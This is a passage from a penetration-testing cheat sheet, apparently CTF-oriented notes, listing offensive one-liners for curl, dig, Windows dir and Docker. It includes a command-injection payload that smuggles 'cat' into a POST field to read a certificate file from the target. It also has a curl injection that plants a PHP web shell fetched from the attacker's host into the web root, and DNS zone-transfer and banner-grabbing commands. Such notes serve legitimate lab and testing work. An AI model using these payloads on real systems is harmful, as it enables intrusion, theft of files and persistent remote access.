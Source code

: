```console
$ curl --silent -X POST http://<RHOST>/select --data 'db=whatever|cat /home/bob/ca/intermediate/certs/intermediate.cert.pem' | grep -zo '\-\-.*\-\-' > intermediate.cert.pem
```

### Get Server Time

```console
$ curl --head http://<RHOST>/
```

### curl Injection with Burp Suite

```console
-o /var/www/html/uploads/shell.php http://<LHOST>/shell.php
```

## dig

### Banner Grabbing

```console
$ dig version.bind CHAOS TXT @<RHOST>
$ dig ANY @<RHOST> <DOMAIN>
$ dig A @<RHOST> <DOMAIN>
$ dig AAAA @<RHOST> <DOMAIN>
$ dig TXT @<RHOST> <DOMAIN>
$ dig MX @<RHOST> <DOMAIN>
$ dig NS @<RHOST> <DOMAIN>
$ dig -x <RHOST> @<RHOST>
```

### Zone Transfer

```console
$ dig axfr @<RHOST>
$ dig axfr @<RHOST> <DOMAIN>
```

### Dir

```cmd
C:\> dir flag* /s /p
C:\> dir /s /b *.log
```

## Docker

### Starting Container and mount Directory on Host

```console
$ docker run -it -v $(pwd):/app <CONTAINER>
```
